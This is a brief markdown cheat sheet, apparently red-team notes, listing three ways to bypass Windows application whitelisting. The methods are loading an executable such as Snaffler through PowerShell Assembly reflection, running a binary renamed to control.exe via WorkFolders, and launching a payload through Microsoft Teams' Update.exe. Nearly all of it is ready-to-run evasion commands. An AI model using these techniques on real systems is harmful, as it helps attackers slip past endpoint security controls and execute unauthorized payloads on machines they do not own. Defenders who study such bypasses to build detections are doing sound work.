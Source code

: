 # Application Whitelisting Bypasses
## PowerShell Assembly Reflection
```
# This technique can in some cases be used to bypass application whitelisting
# The following example runs the tool Snaffler.exe with the argument -s
[byte[]]$bytes = get-content -encoding byte -path C:\Users\username\Desktop\Snaffler.exe
$asm = [System.Reflection.Assembly]::Load($bytes)
$vars = New-Object System.Collections.Generic.List[System.Object]
$vars.Add("-s")
$passed = [string[]]$vars.ToArray()
$asm.EntryPoint.Invoke($null, @(,$passed))
```   
## Using WorkFolders
You can use the Workfolders application in Windows to run any binary in the current directory after renaming it to "control.exe":
![](screenshot.png)

## Using Teams Update.exe
Copy your payload into %userprofile%\AppData\Local\Microsoft\Teams\current\. Then run the command. Update.exe will execute the file you copied:   
`%userprofile%\AppData\Local\Microsoft\Teams\Update.exe --processStart payload.exe --process-start-args "whatever args"`   
